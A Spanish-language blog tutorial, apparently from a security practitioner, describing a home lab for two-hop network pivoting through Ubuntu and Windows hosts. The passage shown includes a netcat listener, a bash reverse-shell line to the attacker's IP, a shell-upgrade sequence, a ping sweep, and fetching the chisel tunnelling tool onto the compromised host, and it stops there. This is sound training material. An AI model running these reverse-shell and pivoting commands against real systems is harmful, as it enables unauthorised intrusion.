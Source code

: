 ```yaml
---
layout: single
title: Pivoting con dos saltos
excerpt: "Para hacer este artículo me he montado un pequeño laboratorio con dos máquinas ubuntu server 22.04 y otra con windows 10, para mostrar como funciona el pivoting con dos saltos. No se explota ninguna vulnerabilidad puesto que el propósito del artículo es sólamente mostrar como funciona el pivoting cuando hay más de un salto. Accederemos a la máquina server1 (ubuntu) y montaremos un proxy socks para, a través de él, llegar a la máquina windows, que está en otro segmento de red. Después accederemos a la máquina windows a través del proxy controlando el tráfico de ida y el de vuelta, y por último accederemos a la tercera máquina server2 (ubuntu), que estará en un tercer segmento de red, a través de otro proxy que habremos montado en la máquina windows controlando también el tráfico en la ida y en la vuelta, donde esta vez pasará a través de dos máquinas para llegar a la nuestra."
date: 2023-05-07
classes: wide
header:
  teaser: /assets/images/Pivoting/pivoting.jpg
  teaser_home_page: true
categories:
  - Ciberseguridad
tags:
  - Windows
  - Linux
  - Pivoting
---
```


Para hacer este artículo me he montado un pequeño laboratorio con dos máquinas ubuntu server 22.04 y otra con windows 10, para mostrar como funciona el pivoting con dos saltos. No se explota ninguna vulnerabilidad puesto que el propósito del artículo es sólamente mostrar como funciona el pivoting cuando hay más de un salto. Accederemos a la máquina server1 (ubuntu) y montaremos un proxy socks para, a través de él, llegar a la máquina windows, que está en otro segmento de red. Después accederemos a la máquina windows a través del proxy controlando el tráfico de ida y el de vuelta, y por último accederemos a la tercera máquina server2 (ubuntu), que estará en un tercer segmento de red, a través de otro proxy que habremos montado en la máquina windows controlando también el tráfico en la ida y en la vuelta, donde esta vez pasará a través de dos máquinas para llegar a la nuestra.

## Descripción del laboratorio

### Máquina server1
 - SO: Ubuntu Server 22.04
 - Interfaz de red 1: 192.168.0.145
 - Interfaz de red 2: 172.16.0.2

### Máquina Windows 10
 - SO: Windows 10 Pro x64
 - Interfaz de red 1: 172.16.0.4
 - Interfaz de red 2: 10.10.0.3

### Máquina server2
 - SO: Ubuntu Server 22.04
 - Interfaz de red 1: 10.10.0.4

### Máquina atacante:
 - SO: Arch Linux
 - Interfaz de red 1: 192.168.0.151

## Acceso a la máquina server1

Vamos a suponer que hemos descubierto una vulnerabilidad en la máquina server1, y hemos conseguido ejecución de código. Lanzamos una reverse shell y obtenemos acceso directo puesto que la máquina está en el mismo segmento de red que la nuestra.

Nos ponemos a la escucha con netcat en nuestra máquina y lanzamos una reverse shell desde server1 y nos llega perfectamente.

Máquina atacante:

```bash
sudo nc -lvnp 443
```
![](/assets/images/Pivoting/pivoting2.png)

Máquina server1:
```bash
sh -i >& /dev/tcp/192.168.0.151/443 0>&1
```
![](/assets/images/Pivoting/pivoting1.png)

Y convertimos la shell en una tty totalmente interactiva.

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
CTRL+z
stty raw -echo;fg
INTRO
export TERM=xterm
```

![](/assets/images/Pivoting/pivoting3.png)

Ahora vemos que la máquina tiene otra interfaz de red con la ip 172.16.0.2 y buscamos más máquinas que puedan estar en este segmento de red.

```bash
ip a
for i in {1..255} ; do (ping -c 1 172.16.0.$i | grep "bytes from" | cut -d ' ' -f4 | tr -dd ':' &); done
```

![](/assets/images/Pivoting/pivoting4.png)

Vemos que hay otra máquina en la ip 172.16.0.4

Vamos a descargar chisel para linux desde aquí [chisel](https://github.com/jpillora/chisel/releases) y lo vamos a subir a la máquina server1.

Levantamos un servidor http en nuestra máquina compartiendo chisel, lo descargamos desde la máquina server1 con wget y le damos permisos de ejecución.

Máquina atacante:
```bash
python3 -m http.server
```

Máquina server1:
```bash
wget http://192.168.0.151:8000/chisel
chmod +x chisel
```



